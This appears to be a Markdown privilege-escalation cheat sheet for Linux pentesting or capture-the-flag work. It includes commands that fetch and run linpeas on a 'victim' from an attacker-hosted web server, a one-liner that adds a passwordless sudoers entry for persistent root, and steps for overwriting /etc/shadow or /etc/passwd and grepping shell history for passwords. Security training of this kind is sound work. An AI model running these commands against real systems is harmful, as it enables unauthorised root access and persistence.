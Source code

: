 ## Intro
Use Linpeas if possible

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Alternative enumeration script: https://github.com/diego-treitos/linux-smart-enumeration/tree/master

On the attacker host:
```
# determine IP address of Kali
ip a

# create python webserver in the directory where linpeass are located
python -m http.server 8080
```
From the victim host
```

#Either of the below
wget http://<KALI IP>:8080/linpeas.sh
curl --output linpeas.sh http://<KALI IP>:8080/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```
## Quick privesc
If you can execute as root, below is a simple onliner to get permanent privesc
```
# Add any other user to sudoers
echo '<username> ALL=(ALL) NOPASSWD:ALL' >> /mnt/root/etc/sudoers
```

## Basic
Check if you can become root without password
```
su root
```

Check what priviliges you have (what can be run as sudo without password)

Compare with the list here: https://gtfobins.github.io/#+sudo

Also check which environment variables are inherited (look for the env_keep options)
```
sudo -l
```
## Groups
List user groups (permissions)
```
id
# OR
groups
```
Look for anything outside of standard user groups.
To get more info about specific group use
```
# get group basic info
grep <groupname> /etc/group

# To see everything a group owns:
find / -group <groupname> 2>/dev/null
```

## Interesting binaries
If there is any interesting binary (e.g suid or sudo) check ot how to exploit it here:\
https://gtfobins.github.io/

## passwd and shadow

Check if you can read/write /etc/shadow.
- Can Write -> replace root password
- Can Read -> crack the passwords
```
ls -l /etc/shadow

# Generate new password hash to overwrite /etc/shadow
mkpasswd -m sha-512 test
```

Check if you can write to /etc/passwd
- Can write -> add root password directly here
```
ls -l /etc/passwd

# Generate new password hash to overwrite /etc/passwd
openssl passwd test
```

## Crontab
Check what is executed in cron
- edit the .sh files if possible
  - maybe they include wildcards (*) that can be abused? 
- replace executable files\
- check location of the PATH variable, can you do search order hijacking?
```
cat /etc/crontab
```

## SUID file
Executables that are executed in the context of root user.
Find all SUID files and look for the weird ones (e.g. in the user dir)

List of all commonly exploited SUID binaries: https://gtfobins.github.io/#+suid
```
find / -type f -perm -u=s 2>/dev/null
# or
find / -user root -perm -4000 -print 2>/dev/null
```
## Passwords & keys
Maybe password is available in any log or config file?
```
# User history
cat ~/.*history | grep pass

# SSH config files (must be readable)
find / -name ".ssh" 2>/dev/null
```

## Services & listening ports
```
# show the port
ss -tln

#show the name
ss -tl
```

## Find exploits
https://www.exploit-db.com/
- Exploits for SUID executables

https://github.com/jondonas/linux-exploit-suggester-2
- Exploits for the Linux itself

## Additional materials
https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
